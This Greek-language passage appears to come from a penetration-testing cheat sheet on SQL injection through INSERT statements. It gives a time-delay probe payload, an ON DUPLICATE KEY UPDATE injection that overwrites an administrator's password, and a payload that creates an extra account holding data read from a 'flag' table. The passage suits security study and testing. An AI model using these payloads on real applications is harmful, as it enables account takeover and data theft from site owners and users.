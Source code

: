 ### Έλεγχος βάσης δεδομένων MySQL με βάση τον χρόνο εισαγωγής

Προσθέστε όσο `','',''` θεωρείτε απαραίτητο για να βγείτε από τη δήλωση VALUES. Εάν εκτελεστεί καθυστέρηση, έχετε μια SQLInjection.
```sql
name=','');WAITFOR%20DELAY%20'0:0:5'--%20-
```
### ΣΤΗΝ ΠΕΡΙΠΤΩΣΗ ΠΟΥ ΥΠΑΡΧΕΙ ΔΙΠΛΟ ΚΛΕΙΔΙ ΕΝΗΜΕΡΩΣΗΣ

Η ρήτρα `ON DUPLICATE KEY UPDATE` στο MySQL χρησιμοποιείται για να καθορίσει τι ενέργειες θα πρέπει να πραγματοποιηθούν από τη βάση δεδομένων όταν γίνεται μια προσπάθεια εισαγωγής μιας γραμμής που θα οδηγούσε σε διπλή τιμή σε ένα μοναδικό δείκτη ή στον ΠΡΩΤΕΥΟΝ ΚΛΕΙΔΙ. Το παρακάτω παράδειγμα δείχνει πώς μπορεί να εκμεταλλευτεί αυτή η δυνατότητα για να τροποποιήσει τον κωδικό πρόσβασης ενός λογαριασμού διαχειριστή:

Παράδειγμα Ενσωμάτωσης Πληροφοριών Επίθεσης:

Μια ενσωμάτωση πληροφοριών επίθεσης μπορεί να δημιουργηθεί ως εξής, όπου δύο γραμμές προσπαθούν να εισαχθούν στον πίνακα `users`. Η πρώτη γραμμή είναι ένας αποπροσανατολισμός, και η δεύτερη γραμμή στοχεύει στο ήδη υπάρχον email ενός διαχειριστή με σκοπό την ενημέρωση του κωδικού πρόσβασης:
```sql
INSERT INTO users (email, password) VALUES ("generic_user@example.com", "bcrypt_hash_of_newpassword"), ("admin_generic@example.com", "bcrypt_hash_of_newpassword") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_newpassword" -- ";
```
Έτσι λειτουργεί:

- Το ερώτημα προσπαθεί να εισαγάγει δύο γραμμές: μία για το `generic_user@example.com` και μία για το `admin_generic@example.com`.
- Εάν η γραμμή για το `admin_generic@example.com` υπάρχει ήδη, τότε ενεργοποιείται η δήλωση `ON DUPLICATE KEY UPDATE`, η οποία ενημερώνει το πεδίο `password` της υπάρχουσας γραμμής σε "bcrypt_hash_of_newpassword".
- Συνεπώς, η ταυτοποίηση μπορεί να προσπαθηθεί χρησιμοποιώντας το `admin_generic@example.com` με τον κωδικό πρόσβασης που αντιστοιχεί στο bcrypt hash ("bcrypt_hash_of_newpassword" αντιπροσωπεύει το bcrypt hash του νέου κωδικού πρόσβασης, το οποίο πρέπει να αντικατασταθεί με το πραγματικό hash του επιθυμητού κωδικού πρόσβασης).

### Εξαγωγή πληροφοριών

#### Δημιουργία 2 λογαριασμών ταυτόχρονα

Όταν προσπαθείτε να δημιουργήσετε ένα νέο χρήστη και απαιτούνται όνομα χρήστη, κωδικός πρόσβασης και ηλεκτρονική διεύθυνση:
```
SQLi payload:
username=TEST&password=TEST&email=TEST'),('otherUsername','otherPassword',(select flag from flag limit 1))-- -

A new user with username=otherUsername, password=otherPassword, email:FLAG will be created
```
#### Χρήση δεκαδικού ή εξαδεκαδικού
